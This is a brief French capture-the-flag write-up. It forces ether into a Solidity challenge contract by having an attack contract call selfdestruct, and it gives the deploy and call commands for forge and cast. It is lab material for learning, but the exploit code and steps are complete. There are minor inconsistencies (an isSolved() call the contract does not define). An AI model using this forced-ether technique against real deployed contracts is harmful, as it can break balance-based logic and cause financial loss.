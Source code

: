 # BomberMan - K.L.M

## Contrat

Un poil plus compliqué:

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

contract Challenge {

    bool public solved = false;

    function win() public {
        if (address(this).balance!=0){
            solved = true;
        }
    }

    function receive() public payable{
        revert();
    }
}
```

## Solve
Le but est de pouvoir envoyer des ether au contrat, problème, il n'en veut pas :D Alors on va le **forcer** !

Contrat d'attaque :

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract BOMB {

    function BOOM(address payable _a) public payable {
         selfdestruct(_a);
    }
    receive() external payable{
    }
}
```

Ensuite, on déploie, on call et BOOM !

```bash
mkdir atksrc
cd atksrc
forge init
rm src/* test/* script/*
mv atk.sol src/
forge build
forge create src/atk.sol:BOMB --rpc-url $RPC --private-key $PK

Ensuite, on utilisera $ATK comme variable contenant l'adresse de notre contrat d'attaque.
```

```bash
cast send $ATK "BOOM(address)" $TAR --value 1wei -r $RPC --private-key $PK
cast send $TAR "win()" -r $RPC --private-key $PK
cast call $TAR "isSolved()(bool)" -r $RPC
True
```

Win !